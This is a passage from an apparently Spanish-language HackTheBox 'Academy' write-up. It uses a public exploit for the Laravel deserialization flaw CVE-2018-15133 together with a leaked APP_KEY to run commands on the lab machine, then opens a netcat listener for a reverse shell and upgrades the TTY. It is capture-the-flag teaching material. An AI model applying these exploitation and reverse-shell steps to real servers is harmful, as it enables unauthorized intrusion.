 ![297google_foundCVE2018_15133](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297google_foundCVE2018_15133.png)

Que no cubre toda la búsqueda, pero involucra `Illuminate` que es uno de los servicios que estamos corriendo... Leyendo sobre el exploit, explota el CVE `CVE-2018-15133` y el `CVE-2017-16894`. Basicamente se aprovecha de una brecha en el framework `laravel` (vamos bien) donde al momento de llamar el método `Illuminate/Encryption/Encrypter.php` se puede producir una deserializacion insegura, en la que podemos ejecutar comandos en el sistema antes de que nos muestre algún error. No requerimos autenticación, pero si el token `API_KEY` (perfe, lo tenemos) para poder aprovecharnos... Este exploit es un módulo de `metasploit`, busquemos en internet algún PoC sobre `CVE-2018-15133`.

* [CVE-2018-15133 - nvd.nist.gov/CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133).
* [CVE-2018-15133 - cve.mitre.org/CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133).

Con algo de suerte, pero también deseando no haberla tenido, encontramos este exploit relacionado con el `CVE-2018-15133`:

* [Exploit Laravel CVE-2018-15133 - github.com/aljavier](https://github.com/aljavier/exploit_laravel_cve-2018-15133).

En su descripción dice que hizo el script enfocado en una máquina de `HackTheBox` . _. ya que no quería usar `metasploit` y quería practicar su scripting :P

Y también en las imágenes nos muestra como se debe usar, donde el `API_KEY` es el mismo que tenemos nosotros :I Y bueno, que se le hace, desearía que hubiera sido mucho más implícito, pero pues una vez lo vez, ya paila, a usarlo y seguir:

Nos bajamos el script y su uso es sencillo:

```bash
–» python3 pwn_laravel.py 
usage: pwn_laravel.py [-h] [-c COMMAND] [-m {1,2,3,4}] [-i] URL API_KEY
pwn_laravel.py: error: the following arguments are required: URL, API_KEY
```

```bash
–» python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c whoami
www-data
```

Bien, tenemos ejecución de comandos en el sistema, intentemos generar una reverse Shell (:

![297bash_CVE2018_15133_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297bash_CVE2018_15133_revsh.png)

Listos, tamos dentro, hagamos de nuestra Shell una totalmente interactiva, ya que con la que tenemos estamos limitados, no podemos ver los comandos anteriormente ingresados, no podemos hacer `CTRL + C`, así que hagamos tratamiento de la TTY:

```bash
www-data@academy:/var/www/html/htb-academy-dev-01/public$ script /dev/null -c bash
# Ahora CTRL + Z (acá volvemos a nuestra máquina de atacante)
# Escribimos lo siguiente:
–» stty raw -echo
–» fg (aunque no se vea cuando lo coloquemos, si se está escribiendo, damos enter)
# Nos retornará a lo que teníamos detenido, solo debemos escribir: reset
–» nc -lvp 4433
               reset
reset: unknown terminal type unknown
# Y después: xterm
Terminal type? xterm
```
